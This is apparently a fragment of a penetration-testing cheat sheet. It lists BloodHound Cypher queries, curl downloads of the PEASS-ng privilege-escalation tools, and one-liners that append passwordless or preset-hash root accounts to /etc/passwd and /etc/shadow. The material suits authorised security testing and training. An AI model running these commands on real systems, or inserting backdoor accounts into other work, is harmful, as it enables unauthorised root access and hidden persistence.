 ```bash
```
#### Raw Queries
```json
// Match for objects
MATCH (m:Computer) RETURN m
MATCH (m:User) RETURN m

// Has a session
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p

```

## PrivEsc General


Get all the Latest Win and Lin PEASS!
```bash
# PEAS-NG
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEAS.bat -o winPEAS.bat 
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany.exe -o winPEASany.exe
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe -o winPEASany_ofs.exe
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASx64.exe -o winPEASx64.exe
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASx64_ofs.exe -o winPEASx64_ofs.exe
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASx86.exe -o winPEASx86.exe
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASx86_ofs.exe -o winPEASx86_ofs.exe
```


#### Linux 

```bash
# Service control
service <args> <service-name> # SysV Init distros - BEWARE
systemd
systemctl <verb> <service> # enable,disable,reload,start,stop,status
```

```
echo "r00t::0:0:root:/root:/bin/bash" >> /etc/passwd

echo "r00t:x:0:0:root:/root:/bin/bash" >> /etc/passwd
'r00ted:$6$9DjmffRHEHYUiYJg$c2kYZOlVhznBJ8LCvwtarJc1w/p2dinBd6KlKvwdih/bekhfe.Z30JqBuvaohBvATigQaYzwe4klgMtvkAjEd/:18400:0:99999:7:::' >> /etc/shadow

```
